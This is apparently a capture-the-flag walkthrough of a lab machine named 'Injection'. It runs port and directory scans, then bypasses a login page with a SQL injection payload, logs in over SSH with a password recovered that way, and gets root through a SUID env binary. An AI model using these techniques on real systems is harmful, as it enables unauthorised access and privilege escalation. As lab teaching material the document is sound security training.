



# Injection

## Phase 1: Scanning for Services
Search for the IP address of the machine. This allow us to know all the services that are running on the machine. 

`-p- --open`: these flags allow us to scan all the ports and only show the open ones.
    
`-sS`: this flag allows us to perform a SYN scan really fast.

```shell
$ sudo nmap -p- --open -sS 172.17.0.2

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-11 03:47 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000010s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.34 seconds
``` 

In this case the IP address is `172.17.0.2`and the services running are `ssh` and `http`.

### Phase 2: Enumeration directories
Knowing the services that are running, we can use `http` one to find the directories that are available in the IP address.

```shell 
gobuster dir -u 172.17.0.2 -w ~/Downloads/kali-wordlists/dirbuster/directory-list-1.0.txt -x php,py,txt,html

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/Downloads/kali-wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,py,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 2921]
/config.php           (Status: 200) [Size: 0]
Progress: 708540 / 708545 (100.00%)
===============================================================
Finished
===============================================================
```

Now we know that there are two directories available: `/index.php` and `/config.php`. If we acceed to both with a browser:

- `/config.php`: This file is empty.


  
  
<br>

- `/index.php`: This file is a login page.



### Phase 3: Injection attack

We can try to inject some code in the login page to see if we can get access to the machine. 

- **User**: `admin' or 1=1-- -`

- **Password**: anything.

Finally, we can see that we have Dylan account\`s password: `KJSDFG789FGSDF78`




### Phase 4: Privilege escalation

If we remember the services that are running in the machine, we can see that `ssh` is one of them. We can try to access to the machine using the `ssh` service.

```
$ ssh dylan@172.17.0.2
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.6.15-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Aug 12 21:11:08 2024 from 172.17.0.1
dylan@c67910d4caf9:~$ 
```

Now we are inside the machine with the `dylan` account. We can try to escalate the privileges to the `root` account. 

First, we can see the files that have the `SUID` bit set:

```shell
$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/mount
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/env
/usr/bin/umount
/usr/bin/gpasswd
```

We can see that the `/usr/bin/env` file has the `suid` bit set. We can try to escalate the privileges using this file. 

According to the [GTFOBins website](https://gtfobins.github.io/), we can use the following command to escalate privileges:

```shell
/usr/bin/env /bin/sh -p
```

Running this command will give us a shell with root privileges.

```
$ /usr/bin/env /bin/sh -p
# whoami
root
```
